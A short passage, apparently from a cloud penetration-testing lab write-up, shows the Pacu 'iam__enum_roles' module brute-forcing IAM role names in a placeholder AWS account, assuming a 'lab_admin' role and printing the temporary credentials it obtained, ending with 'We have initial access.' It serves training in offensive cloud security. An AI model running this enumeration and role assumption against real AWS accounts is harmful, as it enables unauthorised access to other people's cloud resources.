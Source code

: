 Running the enum_roles Module in pacu
```hlt:1
Pacu (offseclab:imported-attacker) > run iam__enum_roles --word-list /tmp/role-names.txt --account-id 123456789012
  Running module iam__enum_roles...
...

[iam__enum_roles] Targeting account ID: 123456789012

[iam__enum_roles] Starting role enumeration...


[iam__enum_roles]   Found role: arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] Found 1 role(s):

[iam__enum_roles]     arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] Checking to see if any of these roles can be assumed for temporary credentials...

[iam__enum_roles]   Role can be assumed, but hit max session time limit, reverting to minimum of 1 hour...

[iam__enum_roles]   Successfully assumed role for 1 hour: arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] {
  "Credentials": {
    "AccessKeyId": "ASIAQOMAIGYUWZXRMMO2",
    "SecretAccessKey": "2UU80dtizqx3DUa9mn6033AjXKb13GXOMCy+tOUt",
    "SessionToken": "FwoGZXIvYXdzEO///////////wEaDCv5...",
    "Expiration": "2023-08-18 22:07:49+00:00"
  },
  "AssumedRoleUser": {
    "AssumedRoleId": "AROAQOMAIGYUR5KMGWT7V:dCkQ0O1y6n9KSQmGBaKJ",
    "Arn": "arn:aws:sts::123456789012:assumed-role/lab_admin/dCkQ0O1y6n9KSQmGBaKJ"
  }
}
Cleaning up the PacuIamEnumRoles-XbsIV role.
```

Tool enumerated, discovered, and assumed the role of lab_admin.

We have initial access. 